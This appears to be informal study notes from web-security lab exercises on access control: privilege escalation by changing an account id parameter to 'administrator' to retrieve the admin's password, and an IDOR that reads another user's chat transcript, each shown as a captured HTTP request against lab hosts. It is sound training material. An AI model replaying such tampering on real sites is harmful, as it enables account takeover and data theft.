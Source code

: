 ======================================================================================
Horizontal to vertical privilege escalation
======================================================================================
ight allow an attacker to reset or capture the password belonging to another user. 
If the attacker targets an administrative user and compromises their account, then they can 
gain administrative access and so perform vertical privilege escalation.
For example, an attacker might be able to gain access to another user's account page 
using the parameter tampering technique already described for horizontal privilege escalation:
https://insecure-website.com/myaccount?id=456




GET /my-account?id=administrator HTTP/1.1
Host: 0adb00bb039b1a8b85506e1700d20065.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://0adb00bb039b1a8b85506e1700d20065.web-security-academy.net/my-account?id=carlos
Connection: close
Cookie: session=RkEp7SAjU9Q2bDH3Aym5dQ1JBqBqLUM8
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Pragma: no-cache
Cache-Control: no-cache

by change the user to admin it is retive the password of admin 


======================================================================================
Insecure direct object references
======================================================================================
IDOR arises when an application uses user-supplied input to access objects directly 
and an attacker can modify the input to obtain unauthorized access


in this example change number of file so the file retive carlos usernmae
GET /download-transcript/1.txt HTTP/1.1
Host: 0ac000f303f6b22085de05c6002d00db.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://0ac000f303f6b22085de05c6002d00db.web-security-academy.net/chat
Connection: close
Cookie: session=TdJWwAFBfeyU1jltMdhi7jPxaH4Tmffn
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin


======================================================================================
Access control vulnerabilities in multi-step processes                               =
======================================================================================
Many Websites impkemnt important function on mutlple steps and ,  this  done when we need
to capture some input  or options  
for example the admin need to change user details function may invloves  
1- Load form containing details for a specific user.
2- submit changes
3-  review changes  
some websites perfrom  valdition on steps and igenore some steps  
